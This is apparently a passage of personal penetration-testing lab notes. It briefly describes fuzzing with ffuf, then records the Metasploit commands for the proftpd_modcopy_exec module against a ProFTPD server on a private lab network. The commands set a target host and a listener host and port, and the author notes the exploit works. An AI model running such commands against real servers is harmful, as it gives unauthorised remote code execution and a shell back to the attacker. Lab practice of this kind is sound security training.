 <a name="fuzzing-with-ffuf"></a>
#### 🔍 Fuzzing with ffuf

Fuzzing is similiar to brute forcing but we are not cracking hashes but finding directories, commands, subdomains etc. on websites.

ffuf is considered the fastest fuzzing tool currently.

More about this in tasks below

<a name="a-choose-an-attack"></a>
## 🎯 A) Choose an Attack

Some failed/wip attempts:
<details></details>


### Searching proftp in msfconsle

found potential exploit for proftpd, spent some time looking into configs. could not get it to work

```
show options
```

![alt text](imagesh3/image-23.png)

after setting correct SITEPATH the exploit works

```
use unix/ftp/proftpd_modcopy_exec

set RHOST 192.168.56.105

set LHOST 192.168.56.104

set LPORT 5665

set SITEPATH /var/www/html
```
